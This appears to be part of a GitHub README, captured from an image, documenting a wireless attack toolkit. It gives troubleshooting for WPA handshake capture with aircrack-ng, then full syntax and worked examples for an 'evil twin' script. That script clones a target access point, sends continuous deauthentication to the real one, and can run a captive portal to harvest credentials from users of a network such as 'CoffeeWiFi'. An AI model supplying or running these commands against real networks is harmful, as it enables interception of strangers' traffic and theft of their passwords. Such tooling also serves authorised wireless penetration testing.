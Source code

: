 **Troubleshooting:**
```bash
# No clients connected?
# Wait or try again when clients are active

# Clients detected but handshake fails?
# Increase MAX_ATTEMPTS or get closer to target

# Verify handshake manually:
aircrack-ng /root/captures/handshake_*-01.cap
```

---

### 3. Evil Twin Attack

**Script:** `/root/03-evil-twin.sh`

**Full Syntax:**
```bash
./03-evil-twin.sh <BSSID> <CHANNEL> <ESSID> [ATTACK_IFACE] [INET_IFACE] [ENABLE_PORTAL] [OUTPUT_DIR]
```

**Required Parameters:**
- `BSSID` - Target AP MAC to clone
- `CHANNEL` - WiFi channel
- `ESSID` - Network name to clone

**Optional Parameters:**
- `ATTACK_IFACE` - Interface for rogue AP (default: wlan0)
- `INET_IFACE` - Interface with internet (default: wlan1)
- `ENABLE_PORTAL` - Enable credential capture [true/false] (default: false)
- `OUTPUT_DIR` - Output directory (default: /root/evil-twin)

**Examples:**

```bash
# Basic evil twin (no portal)
./03-evil-twin.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi'

# With evil portal for credential capture
./03-evil-twin.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 wlan1 true

# Custom output location
./03-evil-twin.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 wlan1 false /mnt/sdcard/evil

# Single interface mode (no internet passthrough)
./03-evil-twin.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 wlan0 false
```

**Dual Interface Setup:**
```
wlan0 → Rogue AP broadcasting
        Continuous deauth to legitimate AP
        Client connection monitoring

wlan1 → Internet connection (if different from wlan0)
        NAT/routing for passthrough
        Maintains SSH connectivity
```
